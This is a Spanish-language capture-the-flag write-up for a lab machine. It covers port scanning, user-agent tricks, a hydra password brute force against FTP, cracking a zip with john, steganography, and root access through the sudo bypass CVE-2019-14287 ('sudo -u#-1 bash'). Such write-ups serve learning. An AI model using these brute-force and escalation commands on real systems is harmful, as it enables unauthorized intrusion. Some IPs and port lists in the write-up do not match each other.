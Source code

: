 # Summary
- IP: 10.10.217.235
- Ports: 21,22,80
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	-  21 -> vsftpd 3.0.3
	-  22 -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
	-  80 -> Apache httpd 2.4.29

# Recon
- Reconocimiento básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` 
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
```


- Analizamos la web, pero solo nos arroja un texto: Use your own codename as user-agent to access the site. from Agent R
- Con burpsuite interceptamos la petición al ingresar a la web y modificamos el USER AGENT, primero intentamos con "R" ya que está en el texto leido, y nos arroja un texto confirmándonos que existen 26 agentes más, seguimos probando con más letras en la consola jugando con CURL:

```
$curl -A "C" -L 10.10.217.235
```


- Con la letra "C" nos arroja un resultado, en el cual se nos menciona le nombre de uno de los agentes, el cual es "chris", con esta info, hacemos un ataque de fuerza bruta al servidor ftp:

```
$hydra -l chris -P /home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt ftp://10.10.217.235/
```

- Encontramos las credenciales de chris, nos conectamos por ftp y nos encontramos con 3 archivos, los descargamos todos a nuestra máquina:

```
ftp 10.10.217.235
```

- Analizamos los archivos: El archivo de texto nos dice que en una de las imágenes está una credencial, analizamos la imagen cutie.png:

```
$binwalk cutie.png
```

- Vemos que hay un zip oculto dentro de esta imagen, lo descargamos con el comando:

```
$binwalk -e cutie.png
```

- Vemos los archivos extraidos y nos encontramos con un zip encriptado, lo desencriptamos con john:

```
$zip2john 8702.zip > zip.hash

$sudo john -w:/home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt zip.hash
```

- Obtenemos la contraseña "alien", la cual usaremos para descomprimir el zip, como unzip nos da problemas, probamos con 7z:

```
$7z e 8702.zip
```

- Descomprimimos, y obtenemos un archivo de texto el cual nos brinda una credencial hasheada en base 64, la decodeamos:

```
$echo "QXJlYTUx" | base64 -d
```

- Obtenemos la contraseña "Area51", ahora analizamos la imagen .jpg en búsqueda de esteganografía con ayuda de la página https://futureboy.us/stegano/decinput.html
- Ingresamos la imagen, usamos "Area51" como contraseña y obtenemos otro texto, el cual nos da un nombre de usuario "james" y una contraseña, la cual usaremos para entrar por SSH:

```
$ssh james@10.10.217.235
```

- Encontramos la primera flag y una imagen, la descargamos para buscar en google y responder en la CTF (NO ES RELEVANTE)

```
$sudo scp james@10.10.217.235:Alien_autospy.jpg ~/
```

# ESCALANDO PRIVILEGIOS:

- Con sudo -l vemos lo siguiente: (ALL, !root) /bin/bash         lo que nos dice que no podemos ejecutar como root pero si como !root, buscamos vulerabilidades contra esto y encontramos el CVE-2019-14287 el cual nos dice que con el siguiente comando podemos escalar privilegios:

```
sudo -u#-1 bash
```

- Lo ejecutamos y ya tendremos acceso ROOT.

